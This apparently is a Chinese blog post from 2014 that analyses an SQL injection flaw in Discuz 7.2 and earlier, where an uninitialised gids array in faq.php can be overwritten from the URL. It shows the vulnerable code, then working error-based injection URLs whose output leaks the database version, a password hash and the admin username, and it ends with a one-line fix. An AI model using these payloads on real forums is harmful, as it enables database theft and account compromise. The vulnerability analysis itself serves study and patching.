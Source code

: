 Title: Discuz7.2及以下版本通杀漏洞分析
Date: 2014-07-03 06:08
Tags: Discuz


2014年7月2日真是个好日子，Discuz7.2及以下版本爆出一个惊天大漏洞，黑客可以直接脱库，甚至可以直接可以写入webshell


#### **1、漏洞代码分析**

请看下面注释分析，其实问题很简单，没有初始化变量，导致用户可以覆盖变量，引起注入。但凡做过开发的同学应该都知道，这个其实是一个很容易犯错的地方。在开发c、c++的时候有pclint工具可以检查，只要使用前没有初始化就报警，这类问题得到了很好的抑制。但脚本语言似乎并没有很好的工具，光靠人的编程技能，还是很难控制以后不会犯同样的错误。Discuz范的这个错误肯定不是偶然的，类似问题其它的网站或轻或重的应该也会存在的。

<code>

} elseif($action == 'grouppermission') {

	require_once './include/forum.func.php';
	require_once language('misc');
	$permlang = $language;
	unset($language);

	$searchgroupid = isset($searchgroupid) ? intval($searchgroupid) : $groupid;
    /* 此处没有对数组变量gids初始化 */
	$groups = $grouplist = array();
	$query = $db->query("SELECT groupid, type, grouptitle, radminid FROM {$tablepre}usergroups ORDER BY (creditshigher<>'0' || creditslower<>'0'), creditslower");
	$cgdata = $nextgid = '';
	while($group = $db->fetch_array($query)) {
		$group['type'] = $group['type'] == 'special' && $group['radminid'] ? 'specialadmin' : $group['type'];
		$groups[$group['type']][] = array($group['groupid'], $group['grouptitle']);
		$grouplist[$group['type']] .= '<option value="'.$group['groupid'].'"'.($searchgroupid == $group['groupid'] ? ' selected="selected"' : '').'>'.$group['grouptitle'].($groupid == $group['groupid'] ? ' &larr;' : '').'</option>';
		if($group['groupid'] == $searchgroupid) {
			$cgdata = array($group['type'], count($groups[$group['type']]) - 1, $group['groupid']);
		}
    }

    /* 根据不同的情况对gids前4位变量进行赋值 */
	if($cgdata[0] == 'member') {
		$nextgid = $groups[$cgdata[0]][$cgdata[1] + 1][0];
		if($cgdata[1] > 0) {
			$gids[1] = $groups[$cgdata[0]][$cgdata[1] - 1];
		}
		$gids[2] = $groups[$cgdata[0]][$cgdata[1]];
		if($cgdata[1] < count($groups[$cgdata[0]]) - 1) {
			$gids[3] = $groups[$cgdata[0]][$cgdata[1] + 1];
			if(count($gids) == 2) {
				$gids[4] = $groups[$cgdata[0]][$cgdata[1] + 2];
			}
		} elseif(count($gids) == 2) {
			$gids[0] = $groups[$cgdata[0]][$cgdata[1] - 2];
		}
	} else {
		$gids[1] = $groups[$cgdata[0]][$cgdata[1]];
	}
	ksort($gids);
    $groupids = array();

    /* 将gids内容拷贝到数组变量groupids中 */
	foreach($gids as $row) {
		$groupids[] = $row[0];
	}

    /* 利用groupids中的内容查询数据，由于gids变量没有初始化，用户可以构造一个请求对gids变量进行覆盖，导致groupids可控，只要闭合下面的IN()，即可注入 */
	$query = $db->query("SELECT * FROM {$tablepre}usergroups u LEFT JOIN {$tablepre}admingroups a ON u.groupid=a.admingid WHERE u.groupid IN (".implodeids($groupids).")");
	$groups = array();
	while($group = $db->fetch_array($query)) {
		$group['maxattachsize'] = $group['maxattachsize'] / 1024;

</code>


#### **2、利用方法**

1、url中传入gids变量，需要闭合in，并利用mysql的floor报错注入法即可实现，如下输入，可以爆出数据库版本

    http://172.16.28.132/Discuz/Discuz_7.2_SC_UTF8/upload/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat(version(),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23

输出结果

    Discuz! info: MySQL Query Error
    
    Time: 2014-7-3 7:01am
    Script: /Discuz/Discuz_7.2_SC_UTF8/upload/faq.php

    SQL: SELECT * FROM [Table]usergroups u LEFT JOIN [Table]admingroups a ON u.groupid=a.admingid WHERE u.groupid IN ('7','\',') and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a)#')
    Error: Duplicate entry '5.1.28-rc-community1' for key 'group_key'
    Errno.: 1062
    

2、只需要替换上面的version()，即可实现任意的注入操作，如下输入可以爆出数据库的密码

    http://172.16.28.132/Discuz/Discuz_7.2_SC_UTF8/upload/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat((select password from cdb_members limit 1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23

输出结果

    Discuz! info: MySQL Query Error
    
    Time: 2014-7-3 7:06am
    Script: /Discuz/Discuz_7.2_SC_UTF8/upload/faq.php
        
    SQL: SELECT * FROM [Table]usergroups u LEFT JOIN [Table]admingroups a ON u.groupid=a.admingid WHERE u.groupid IN ('7','\',') and (select 1 from (select count(*),concat((select password from [Table]members limit 1),floor(rand(0)*2))x from information_schema.tables group by x)a)#')
    Error: Duplicate entry '0644bf56b4ed45878f306b5f19dc1e0e1' for key 'group_key'
    Errno.: 1062
    

3、只需要替换上面的version()，即可实现任意的注入操作，如下输入可以爆出数据库的用户名

    http://172.16.28.132/Discuz/Discuz_7.2_SC_UTF8/upload/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat((select username from cdb_members limit 1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23

输出结果

    Discuz! info: MySQL Query Error
    
    Time: 2014-7-3 7:07am
    Script: /Discuz/Discuz_7.2_SC_UTF8/upload/faq.php
    
    SQL: SELECT * FROM [Table]usergroups u LEFT JOIN [Table]admingroups a ON u.groupid=a.admingid WHERE u.groupid IN ('7','\',') and (select 1 from (select count(*),concat((select username from [Table]members limit 1),floor(rand(0)*2))x from information_schema.tables group by x)a)#')
    Error: Duplicate entry 'admin1' for key 'group_key'
    Errno.: 1062
    

4、利用上面的思路自己写了一个小软件，可以读取所有的用户用密码

[工具源码下载链接](static/code/diz7.2.py)


#### **3、修复方法**

将如下代码

    $groups = $grouplist = array();

修改为

    $groups = $grouplist = $gids = array();

